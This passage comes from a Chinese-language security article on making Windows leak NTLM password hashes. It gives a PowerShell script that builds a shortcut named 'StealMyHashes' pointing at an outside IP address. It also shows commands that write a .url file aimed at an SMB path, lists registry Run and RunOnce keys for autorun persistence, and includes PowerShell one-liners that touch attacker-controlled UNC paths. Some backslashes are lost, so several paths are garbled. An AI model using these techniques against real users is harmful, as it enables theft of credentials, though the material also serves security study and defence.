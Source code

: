 下面是对应的Powershell版：



```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk")
$lnk.TargetPath = "\35.164.153.224@OsandaMalith"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%system32shell32.dll, 3"
$lnk.Description = "I will Steal your Hashes"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0166c0eded23d84861.png)

<br>

**Internet快捷方式(.url)**

另一个可以利用的快捷方式是Internet快捷方式，你可以将下面的代码存储为“.url”文件：



```
echo [InternetShortcut] &gt; stealMyHashes.url 
echo URL=file://192.168.0.1/@OsandaMalith &gt;&gt; stealMyHashes.url
```



**<br>**

**注册表自动运行**

可以在下列路径中添加一个新的注册表项：



```
HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRun
HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionRun
HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRunOnce
HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionRunOnce
```

需要添加的内容如下：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01eb58c00929efd476.png)

<br>

**Powershell**

在Powershell中，存在很多可以解析网络路径的小脚本，部分利用方法如下：



```
Invoke-Item \192.168.0.1aa
Get-Content \192.168.0.1aa
Start-Process \192.168.0.1aa
```
